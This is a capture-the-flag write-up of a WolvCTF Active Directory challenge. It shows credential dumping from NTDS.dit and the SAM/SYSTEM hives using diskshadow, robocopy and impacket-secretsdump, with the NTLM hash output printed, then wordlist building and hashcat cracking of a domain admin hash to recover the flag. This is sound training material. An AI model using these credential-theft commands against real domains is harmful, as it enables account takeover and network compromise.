

# Part 1: Obtaining Jessica's password hash

Lets pick up where we left off with part 2 and scan the newly taken over account, Patrick's


```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat patrick/Desktop/note_from_jake.txt                                                     
If you need anything backed up you can just use my account:

Password: fwa3fe8#FEwef 
```


Now, lets check Jake's

```
cat jake/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt 
```


```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat jake/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt 
cd C:\Users\Public\Downloads
whoami
cd C:\Users\jake\desktop
whoami /all > whoami.txt
type .\whoami.txt
cd C:\Users\public
cd downloads
diskshadow.exe /s script.txt
diskshadow.exe /s script.txt > shadow.txt
type .\shadow.txt
cp .\shadow.txt C:\Users\jake\desktop\shadow.txt
del shadow.txt
robocopy /b z:\windows\ntds . ntds.dit > robo.txt
type .\robo.txt
dir
del robo.txt
cp ntds.dit C:\Users\jake\downloads
del ntds.dit
cd C:\Users\jake\downloads
dir
reg save hklm\system c:\users\jake\downloads\system.hive
reg save hklm\sam C:\users\jake\downloads\sam.hive
dir
cp * C:\Users\public
del C:\Users\public\ntds.dit
del C:\Users\public\sam.hive
del C:\Users\public\system.hive
runas /User:wolvctf\jessica
runas /User:wolvctf\jessica cmd
```

We can see that they used diskshadow to perform a volume shadow copy of the NTDS, SAM hive, and SYSTEM hive. Let's use `impacket` to dump those secrets

```
impacket-secretsdump -ntds ntds.dit -system system.hive -sam sam.hive LOCAL
```

```
┌──(kali㉿kali)-[~/…/challenge/Users - Copy/jake/Downloads]
└─$ impacket-secretsdump -ntds ntds.dit -system system.hive -sam sam.hive LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x32032d8f6ff9102e4202d192c152e02a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1b921e44ea5dfd940c004044d4ef4cae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a802330d6d1dca4a57a459990af5e50e
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1b921e44ea5dfd940c004044d4ef4cae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b60be13c1c27a48e5c5afc10792afeab:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7f27814ee1fea90dc7495b265207db9d:::
mssql_service:2102:aad3b435b51404eeaad3b435b51404ee:6092ca0e60d24f30d848a5def59d4753:::
wolvctf.corp\james:4101:aad3b435b51404eeaad3b435b51404ee:4c20abe87d36b9ad715fd5671545abb5:::
wolvctf.corp\emily:4102:aad3b435b51404eeaad3b435b51404ee:5c7a26ae4c40018fa1660cc2f1d82269:::
wolvctf.corp\john:4103:aad3b435b51404eeaad3b435b51404ee:d24c1456aefeab3eb911c8015b9f6ce4:::
wolvctf.corp\patrick:4104:aad3b435b51404eeaad3b435b51404ee:0311f96ce47c5cc21529fcc8375f9c2e:::
wolvctf.corp\katherine:4105:aad3b435b51404eeaad3b435b51404ee:89218e0b151209e9d4fa0768ea72c70d:::
wolvctf.corp\Amy:4106:aad3b435b51404eeaad3b435b51404ee:4aa4474c2886f6a796bd75eebe5ebf01:::
wolvctf.corp\jessica:4107:aad3b435b51404eeaad3b435b51404ee:8fcdcffba18f392df7aa291527290aff:::
wolvctf.corp\frank:4108:aad3b435b51404eeaad3b435b51404ee:b0212745c59fcf54f06ea501cd409ff5:::
wolvctf.corp\chris:4109:aad3b435b51404eeaad3b435b51404ee:253cfc1375d39308ab1bb935b44e2010:::
wolvctf.corp\renee:4110:aad3b435b51404eeaad3b435b51404ee:9b5109ef6dbc8086ed36a90c20aa1d48:::
wolvctf.corp\peter:4111:aad3b435b51404eeaad3b435b51404ee:4f3cde005948d4e4fb232c35014ccafb:::
wolvctf.corp\dan:4112:aad3b435b51404eeaad3b435b51404ee:e9d959da74f5c7590a80d635b36705a6:::
...
```


From our bloodhound output, we know jessica is the domain admin. We want to focus on her NTLM hash:
```
wolvctf.corp\jessica:4107:aad3b435b51404eeaad3b435b51404ee:8fcdcffba18f392df7aa291527290aff:::
```


```
8fcdcffba18f392df7aa291527290aff
```

---
## Cracking Jessica's password hash

If you want to view the raw bloodhound data, it will show the description for the `Domain Admins` Group that Jessica is a part of


```
Members who are part of this group have passwords w then a c then a t and an f, curly bracket left, 'bloodhound_is_cool_' (but all the 'o's are '0's), then a city in all lowercase appended by 3 numbers (secret only you know),  right curly bracket
```

Take a word list that has a lot of cities, as such:
https://github.com/kkrypt0nn/wordlists/blob/main/wordlists/security_question_answers/cities.txt

Lets modify the wordlist

```python
with open("cities.txt", "r") as file:
    cities = file.readlines()

formatted_cities = []
for city in cities:
    city = "wctf{bl00dh0und_is_c00l_" + city.strip().lower()
    formatted_cities.append(city)

with open("cities_wordlist.txt", "w") as file:
    for formatted_city in formatted_cities:
        file.write(formatted_city + "\n")

print("Formatted cities have been written to cities_wordlist.txt")
```

And crack using a hashcat masking rule to append 3 digits to the end of it

```
hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}"
```


```
┌──(kali㉿kali)-[~/ctf/Active]
└─$ hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}" 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i7-1280P, 1424/2913 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.

Started: Wed Mar 19 01:41:52 2025
Stopped: Wed Mar 19 01:41:53 2025
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/ctf/Active]
└─$ hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}" --show
8fcdcffba18f392df7aa291527290aff:wctf{bl00dh0und_is_c00l_votuporanga985}
```

Flag:

```
wctf{bl00dh0und_is_c00l_votuporanga985}
```